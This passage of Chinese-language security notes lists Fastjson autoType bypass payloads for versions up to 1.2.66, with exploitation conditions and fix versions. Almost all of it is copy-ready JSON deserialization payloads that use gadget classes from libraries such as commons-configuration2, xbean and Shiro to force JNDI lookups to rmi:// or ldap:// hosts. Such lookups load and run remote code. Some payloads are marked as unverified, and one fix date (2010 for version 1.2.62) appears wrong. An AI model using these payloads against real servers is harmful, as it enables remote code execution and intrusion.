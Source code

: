 利用条件: fastjson<=1.2.61, 且开启 autoType

```json
# 以下poc未复现成功

{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"rmi://127.0.0.1"}

{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://127.0.0.1","Object":"a"}

{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"rmi://127.0.0.1:1099/Exploit\"}
```

官方于 2010/10/07 发布 1.2.62 版本修复该绕过方式

---

## fastjson<=1.2.62

利用条件: fastjson<=1.2.62, 且开启 autoType

该 poc 来自于 jackson, 对应漏洞编号 CVE-2020-8840
```json
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","asText":"ldap://0.0.0.0"}}

{\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\",\"asText\":\"rmi://localhost:1099/Exploit\"}
```

```json
# 以下poc未复现成功
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://0.0.0.0"}}

{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","healthCheckRegistry":"ldap://0.0.0.0"}

{"@type":"org.apache.cocoon.components.slide.impl.JMSContentInterceptor","parameters": {"@type":"java.util.Hashtable","java.naming.factory.initial":"com.sun.jndi.rmi.registry.RegistryContextFactory","topic-factory":"ldap://0.0.0.0"},"namespace":""}
```

官方于2019/10/07发布1.2.63版本修复该绕过方式

---

## fastjson < 1.2.66

利用条件: fastjson<=1.2.66, 且开启 autoType

```json
{"v66":{"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory","jndiNames":["ldap://0.0.0.0"],"Realms":[""]}}

{"v66":{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://0.0.0.0"}}
```
